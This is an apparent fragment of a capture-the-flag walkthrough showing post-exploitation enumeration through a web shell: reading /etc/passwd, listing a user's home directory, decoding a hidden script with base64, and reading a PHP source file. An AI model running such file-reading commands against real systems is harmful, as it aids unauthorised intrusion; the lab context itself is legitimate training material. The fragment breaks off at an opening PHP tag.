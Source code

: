 
shell>cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
aurick:x:1000:1000:Anurodh:/home/aurick:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
apaar:x:1001:1001:,,,:/home/apaar:/bin/bash
anurodh:x:1002:1002:,,,:/home/anurodh:/bin/bash
ftp:x:112:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin


```



total 44 drwxr-xr-x 5 apaar apaar 4096 Oct 4 2020 . drwxr-xr-x 5 root root 4096 Oct 3 2020 .. -rw------- 1 apaar apaar 0 Oct 4 2020 .bash_history -rw-r--r-- 1 apaar apaar 220 Oct 3 2020 .bash_logout -rw-r--r-- 1 apaar apaar 3771 Oct 3 2020 .bashrc drwx------ 2 apaar apaar 4096 Oct 3 2020 .cache drwx------ 3 apaar apaar 4096 Oct 3 2020 .gnupg -rwxrwxr-x 1 apaar apaar 286 Oct 4 2020 .helpline.sh -rw-r--r-- 1 apaar apaar 807 Oct 3 2020 .profile drwxr-xr-x 2 apaar apaar 4096 Oct 3 2020 .ssh -rw------- 1 apaar apaar 817 Oct 3 2020 .viminfo -rw-rw---- 1 apaar apaar 46 Oct 4 2020 local.txt


base64 /home/apaar/.helpline.sh | base64 -d

```
shell>cat ../../files/account.php
<?php
